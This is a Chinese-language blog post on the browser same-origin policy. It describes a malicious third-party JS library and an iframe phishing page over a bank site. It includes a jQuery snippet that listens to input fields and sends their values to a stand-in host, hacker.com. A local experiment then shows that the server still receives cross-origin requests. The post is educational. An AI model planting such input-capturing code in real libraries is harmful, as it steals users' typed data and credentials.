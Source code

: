 ```yaml
---
title: 同源策略
---
```


<p class="lead">
	本文讨论浏览器上的同源策略，分析同源策略已解决的问题，以及目前还存在什么问题。
</p>

首先，我们先不看什么是同源策略，先来想一些可能的web安全方面的隐患：

* <a name="s1">**情景1：**</a>假如我写了一个通用的js库，被很多开发者引用，但他们不知道我在里面偷偷加了一些恶意代码：getInputValAndSendToDB()。这个方法的主要功能是监听用户的键盘输入，并将输入的值通过ajax或JSONP等形式发送到我的服务器并存储到数据库中。

代码看起来可能像这样：
{% highlight js %}
var other = (function () {
    var getInputValAndSendToDB = function() {
        $('#text').on('change', function () {
            var val = $(this).val();
            send(val);
        });
    }
    var send = function (data) {
        $.get('http://www.hacker.com/?data=' + data, function (data) {
            console.log('来自第三方JS库的消息:');
            console.log(data);
        });
    };
    $(function () {
        getInputValAndSendToDB();
    });
})();
{% endhighlight %}

* **情景2：**再假如我写了一个html页面，里面只有个iframe元素，src属性设置为某个银行主页的地址。我还申请了一个和该银行主页类似的域名，最后将页面部署到Internet上。当有人打开这个页面，他们看到的内容和真正打开银行主页所看到的内容没有任何差别，但他们不知道其实我还在页面中加入了一段js代码，例如上面的getInputValAndSendToDB方法，监听银行主页的用户名input以及密码input，或者将银行页面中的某个链接的href属性改成其它钓鱼网站的地址，诱使用户在钓鱼网站上输入他们的用户名、密码、银行卡号等信息。

好，现在我们有了两个情景，那这两种情景是否有可能在浏览器中发生呢？接下来我们通过实验的方式来验证一下。

实验方案：

* 环境：使用nodejs启动两个服务，我这里分别监听了8110(开发者)和8111(第三方JS库提供者)端口
* 开发者: 引用第三方提供的JS库: other.js。页面中放置一个input标签
* 第三方: 提供other.js，并在other.js中写入[情景1](#s1)中提到的恶意代码
* 实验过程: 在开发者页面的input中输入值，看是否会被发送到第三方服务器

实验过程:

1. 开发者页面输入值, input的change事件被触发，向第三方服务器发送ajax请求: 
![Small example image](https://yangfan44777.github.io/blog/1.png "Small example image")

2.查看浏览器控制台:
![Large example image](https://yangfan44777.github.io/blog/2.png "Large example image")
从控制台我们看到发送用户输入的ajax请求所返回的数据被拒绝了接受了，原因是发送请求的js的源与被请求地址的源不同。那么第三方服务器是否都到了请求呢？我在第三方服务器的终端输出了请求参数, 发现可以收到。

从错误信息中还能看到，被拒绝接收的原因是返回的header中没有设置Access-Control-Allow-Origin的值。接下来我在第三方服务器返回的header中加入了Access-Control-Allow-Origin:*，开发者端再次发送请求，此时浏览器控制台不再报错了，正确接受了第三方数据。
![Large example image](https://yangfan44777.github.io/blog/3.png "Large example image")

通过第一个实验，可以看出，不管第三方返回的header中是否设置了Access-Control-Allow-Origin，第三方服务器都可以接收到不同域发来的请求。




